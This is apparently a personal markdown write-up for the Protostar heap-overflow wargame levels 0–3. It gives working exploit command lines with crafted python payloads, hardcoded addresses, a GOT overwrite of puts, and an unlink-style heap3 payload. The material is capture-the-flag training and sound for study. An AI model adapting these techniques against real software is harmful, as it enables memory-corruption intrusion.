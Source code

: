 # Protostar heap-overflow notes

I've noticed that a lot of well documented writeups are present for protostar and decided to instaad post a cliff-notes version for this and upcoming ones. A bunch of useful [References](#references)

test [Heap 3](#heap-\#3)

### Heap \#0
Generated good ol' string using pattern_create for 140
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5A6

gbb shows segfault at 0x41346341 which is 72

attack payload: 

	./heap0 `python -c 'print "A" * 72 + "\x64\x84\x04\x08"'`

use ` not ' . **huge difference!!**

### Heap \#1
Did overflow with pattern_create
exact match at 20
Winner location at 0x08048494

Basically there is a printf funnction after strcpy but kept as puts
overwrite with GoT table address and then and point to winner()

put address is 08049774

	./heap1 `python -c "print 'A' * 20 + '\x74\x97\x04\x08' +' ' + '\x94\x84\x04\x08'"`

overwrite the address of argv[2] with GoT table's jump to puts(). Then second strcpy call will move address of winner() and overwrite the puts address
when printf is called we get winner

### Heap \#2

differene between auth and service is 0x10 or 16 bytes.
if u do serviceXXXXXXXXXXXXXXXXX [which x= 17 bytes] u get overflow and get int auth initialized to a specific value X. Then the check will pass.

Another way is use after free

### Heap \#3
FOLLOW DOUG MALLOC articles
In gdb:  

	r AAA `python -c 'print "B"*32 + "\xfc\xff\xff\xff" + "\xf0"'` CCCCDDDDEEEE
Now we can see that after B we overflow next chunk wiht fc which is basically previous chunk size of -4 and kept f0 which means chunk is in use.

Seg fault when trying to copy edx into eax  

	mov eax+12,edx  
	DDDD <<< EEEEE

0x804b128 - 0xc = 0x804b11c  for puts function address which has been adjusted to compensate for assembly

Final Payload:
    
    ./heap3 `python -c 'print "AAAA" + "\xeb\x06" + "\x90"*6 + "\x68\x64\x88\x04\x08\xc3"'` `python -c 'print "B"*16 + "\x01"*4 + "\xff"*4 + "B"*8 + "\xfc\xff\xff\xff" + "\xf0\xff\xff\xff"'` `python -c 'print "CCCC"+"\x1c\xb1\x04\x08"+"\x08\xc0\x04\x08"'`

## References
- https://www.thc.org/root/docs/exploit_writing/Exploiting%20the%20wilderness.txt
- http://www.mathyvanhoef.com/2013/02/understanding-heap-exploiting-heap.html


